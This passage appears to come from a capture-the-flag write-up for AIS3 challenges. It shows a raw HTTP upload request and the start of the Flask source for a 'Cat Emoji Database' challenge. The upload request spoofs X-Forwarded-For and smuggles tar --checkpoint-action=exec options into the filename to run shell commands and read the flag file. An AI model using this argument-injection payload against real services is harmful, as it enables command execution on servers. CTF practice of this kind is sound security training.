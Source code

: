 ```bash=
POST / HTTP/1.1
Host: chals1.ais3.org:9453
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------26667010543677917732775864911
Content-Length: 337
Origin: http://chals1.ais3.org:9453
Connection: close
Referer: http://chals1.ais3.org:9453/
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1

-----------------------------26667010543677917732775864911
Content-Disposition: form-data; name="file"; filename="test|' --checkpoint=1 --checkpoint-action=exec='cd .. && cd .. && cd .. && ls -al && cat y000000_i_am_the_f14GGG.txt'  '"
Content-Type: text/php

whatever

-----------------------------26667010543677917732775864911--

```

### Cat Emoji Database 🐱

> 487
> medium

* source

```python=
from flask import Flask, request, redirect, jsonify, send_file
import re

# db.py: not provided
from db import db

app = Flask(__name__)


@app.before_request
def fix_path():
    # trim all the whitespace from path
    trimmed = re.sub('\s+', '', request.path)
    if trimmed != request.path:
        return redirect(trimmed)


@app.route('/')
def index():
    return send_file('index.html')


@app.route('/api/all')
def emojis():
    cursor = db().cursor()
    cursor.execute("SELECT Name FROM Emoji")
    return jsonify(cursor.fetchall())


```